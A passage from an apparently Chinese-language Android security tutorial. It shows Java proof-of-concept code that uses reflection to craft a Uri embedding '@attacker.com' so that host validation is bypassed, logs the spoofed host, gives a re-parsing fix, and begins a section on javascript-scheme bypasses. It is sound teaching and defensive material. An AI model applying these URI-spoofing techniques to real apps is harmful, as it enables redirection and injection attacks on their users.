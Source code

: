 ```
                Object path = pathPartConstructor.newInstance("@attacker.com", "@attacker.com");
                uri = (Uri) hierarchicalUriConstructor.newInstance("https", authority, path, null, null);
            }
            catch (Exception e) {
                throw new RuntimeException(e);
            }

            Intent intent = new Intent();
            intent.setData(uri);
            intent.setClass(this, TestActivity.class);
            startActivity(intent);
        }
    }
```  
  
  
文件TestActivity.java：  
```
public class TestActivity extends Activity {
     protected void onCreate(Bundle savedInstanceState) {
         super.onCreate(savedInstanceState);

         Intent intent = getIntent();
         Uri uri = intent.getData();

         Log.d("evil", "Scheme: " + uri.getScheme());
         Log.d("evil", "UserInfo: " + uri.getUserInfo());
         Log.d("evil", "Host: " + uri.getHost());
         Log.d("evil", "toString(): " + uri.toString());
     }
 }
```  
  
  
然后可以获得日志信息：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiak5z68u0PDXk3p1DNGNS9ib9l0dDusBn12pNncTpP0eMh349rg75NYsfA/640?wx_fmt=png "")  
  
   
  
漏洞防护：  
  
我们只需要让攻击的应用程序获取Uri攻击者控制的对象并专门使用该对象  
```
  Uri uri = Uri.parse(intent.getData().toString());
```  
  
  
从 API 级别 28 (Android 9) 开始，禁止使用内部接口——但这可以通过使用RestrictionBypass等工具轻松绕过。  
####   
#### （3）URL Scheme绕过  
  
  
漏洞原理：  
  
代码在进行URL校验是，检查了host，但是并未检查scheme，这样我们可以通过“javascript”进行绕过  
  